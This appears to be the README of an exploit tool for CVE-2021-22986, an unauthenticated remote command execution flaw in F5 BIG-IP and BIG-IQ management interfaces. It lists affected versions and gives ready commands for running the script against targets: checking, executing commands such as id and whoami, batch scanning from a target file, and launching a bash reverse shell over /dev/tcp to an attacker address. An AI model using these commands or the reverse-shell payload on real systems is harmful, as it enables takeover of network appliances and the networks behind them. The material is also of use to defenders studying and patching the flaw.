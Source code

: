 ## Vul Info

This Vulnerability allows for unauthenticated attackers with network access to the iControl REST interface, through the BIG-IP management interface and self IP addresses, to execute arbitrary system commands, create or delete files, and disable services. This VUlerability can only be exploited through the control plane and cannot be exploited through the data plane. Exploitation can lead to complete system compromise. The BIG-IP system in Appliance mode is also VUlerable.

## VUl Product

- F5 BIG-IQ 6.0.0-6.1.0
- F5 BIG-IQ 7.0.0-7.0.0.1
- F5 BIG-IQ 7.1.0-7.1.0.2
- F5 BIG-IP 12.1.0-12.1.5.2
- F5 BIG-IP 13.1.0-13.1.3.5
- F5 BIG-IP 14.1.0-14.1.3.1
- F5 BIG-IP 15.1.0-15.1.2
- F5 BIG-IP 16.0.0-16.0.1

## Vunl Check

**Basic usage**

```
python3 CVE_2021_22986.py
```
![](images/use.png)

**VUl check**

```
python3 CVE_2021_22986.py -v true -u https://192.168.174.164
```

**command execute:**

```
python3 CVE_2021_22986.py -a true -u https://192.168.174.164 -c id
```

```
python3 CVE_2021_22986.py -a true -u https://192.168.174.164 -c whoami
```

**batch scan**

```
python3 CVE_2021_22986.py -s true -f check.txt
```

**Reserve Shell**

```
python3 CVE_2021_22986.py -r true -u https://192.168.174.164 -c "bash -i >&/dev/tcp/192.168.174.129/8888 0>&1"
```
![](images/reverse.png)
![](images/reverse_ok.png)


## New POC
```
python3 newpoc.py https://192.168.174.164
```
![](images/newpoc.png)